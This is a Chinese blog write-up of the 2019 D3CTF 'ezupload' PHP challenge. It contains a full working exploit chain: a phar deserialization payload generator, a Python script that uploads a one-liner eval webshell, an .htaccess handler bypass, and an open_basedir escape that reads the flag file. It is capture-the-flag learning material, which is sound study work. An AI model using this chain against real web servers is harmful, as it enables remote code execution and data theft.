

<!--yml
category: 未分类
date: 2022-04-26 14:46:30
-->

# 2019 D3CTF ezupload题解_slug01sh的博客-CSDN博客

> 来源：[https://blog.csdn.net/qq_43085611/article/details/119717608](https://blog.csdn.net/qq_43085611/article/details/119717608)

# 0 前言

一个 PHP 反序列化的题目。虽然序列化的的利用链简单，但是还是踩了很多坑。

# 1 题解

```
<?php

class dir{
    public $userdir;
    public $url;
    public $filename;
}

$o = new dir();
$tmp = new dir(); 
$tmp->userdir = $argv[1]; 
$o->userdir = $tmp;
$o->filename = $argv[2]; 

@unlink("phar.phar");
$phar = new Phar("phar.phar");
$phar->startBuffering(); 
$phar->setStub('__HALT_COMPILER();'); 
$phar->setMetadata($o); 
$phar->addFromString('tmp.txt', ''); 
$phar->stopBuffering();

echo 'data:text/plain;base64,'.shell_exec('base64 phar.phar'); 
```

```
import os
from urllib.parse import quote
import requests
import re

url='http://b5ed8b22-1f82-42ce-a311-fbc0bda85341.node4.buuoj.cn:81/'

b64 = os.popen('php serialize.php ../ ""').read().strip()
r = requests.post(
    url=url,
    data={
        'action':'upload',
        'filename':'<?php eval($_GET[cmd])?>.txt',
        'url':b64
    },

)
print('[*]（上传一句话文件）:', r.text)
upload_dir = re.findall(r'your file in : (.+)', r.text)[0]
print(upload_dir)

b64 = os.popen('php serialize.php ../ 123').read().strip()
r = requests.post(
    url=url,
    data={
        'action':'upload',
        'filename':'phar.txt',
        'url':b64
    },

)
print('[*]:', r.text)

r = requests.post(
    url=url,
    data={
        'action':'upload',
        'filename':'',
        'url':f'phar://{upload_dir}/phar.txt'
    },

)
print('[*]（读取上一级目录）:', r.text)
dir_name = re.findall(r'\.\. (.+?)your', r.text)[0]
print(dir_name)

b64 = os.popen(f'php serialize.php {upload_dir} /var/www/html/{dir_name}/{upload_dir}/webshell').read().strip()
r = requests.post(
    url=url,
    data={
        'action':'upload',
        'filename':'phar.txt',
        'url':b64
    },

)
print(f'php serialize.php {upload_dir} /var/www/html/{dir_name}/{upload_dir}/slug01sh')
print('[*]（上传一句话phar文件）:', r.text)

r = requests.post(
    url=url,
    data={
        'action':'upload',
        'filename':'',
        'url':f'phar://{upload_dir}/phar.txt'
    },

)
print('[*]:', r.text)

r = requests.post(
    url=url,
    data={
        'action':'upload',
        'filename':'.htaccess',
        'url':'data:image/png;base64,QWRkSGFuZGxlciBwaHA3LXNjcmlwdCAudHh0'
    },

)
print('[*]:', r.text)

r = requests.get(
    url=url + f"{upload_dir}/webshell.txt?cmd=ini_set('open_basedir', '..');chdir('..');chdir('..');chdir('..');chdir('..');chdir('..');chdir('..');ini_set('open_basedir', '/');var_dump(file_get_contents('/F1aG_1s_H4r4'));"
)

print(r.url)
print(r.text) 
```

将 php 文件和 Python 文件放入相同的目录下，然后执行 `python3 exp.py` 即可 getflag。


# 2 收获

## 2.1 .htaccess

题目中过滤了 `type` 关键字，导致常用的 `.htaccess` 无法使用。

```
AddType application/x-httpd-php .txt 
```

解决办法：考虑修改为另一种写法

```
AddHandler php7-script .txt 
```

当然很多绕过方法，都是类似的思想，根据一个具体的目标寻找代替物。

## 2.2 反序列化的工作路径

在这题中，首先利用了文件自带的 upload 功能来写入文件，程序的工作路径在`代码所在的文件夹`，所以 upload 时可以利用相对路径来写入文件。

但在后面需要利用 destruct 的 file_put_content 来写入文件，反序列化时程序的工作路径在根目录，所以无法直接使用相对路径来写入文件。

# 3 总结

在文件相关的函数中，相对路径和绝对路径都最好尝试一下，可能会有意想不到的收获。